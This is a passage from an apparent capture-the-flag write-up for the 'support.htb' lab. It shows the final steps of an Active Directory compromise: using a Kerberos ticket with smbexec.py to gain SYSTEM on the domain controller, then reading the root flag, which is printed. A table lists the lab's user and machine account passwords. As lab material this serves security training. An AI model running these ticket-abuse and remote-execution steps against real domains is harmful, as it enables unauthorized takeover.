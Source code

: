 
## 📝 Step 6: Rename Returned .ccache

```bash
mv "Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache" Administrator.ccache
```

---

## 🧨 Step 7: Pwn the Domain Controller via SMBEXEC

```bash
export KRB5CCNAME=Administrator.ccache && smbexec.py -k -no-pass support.htb/Administrator@dc.support.htb
```

---

## 🎯 Step 8: Read Final Flag (Proof)

```cmd
type C:\Users\Administrator\Desktop\root.txt
73217f87d63749e0c53e1b50a91015f8
```

---

## ✅ Result: SYSTEM access on the domain controller `dc.support.htb` achieved via RBCD + S4U2Proxy.
---
# 🧠 Active Directory Exploitation Guide (support.htb - OSCP Reference)

This document consolidates **working commands**, **ticket attacks**, and **hash extraction methods** used on `support.htb (10.10.11.174)` during domain exploitation.

---

## 🔰 Domain Details

| Item       | Value                                  |
|------------|----------------------------------------|
| Domain     | support.htb                            |
| Domain SID | S-1-5-21-1677581083-3380853377-188903654 (example) |
| DC Name    | dc.support.htb                         |
| DC IP      | 10.10.11.174                           |
| Support User | support                              |
| Support Pass | `Ironside47pleasure40Watchful`       |
| Machine Account | `RBCD$` with password `P@ssw0rd123!` |

---
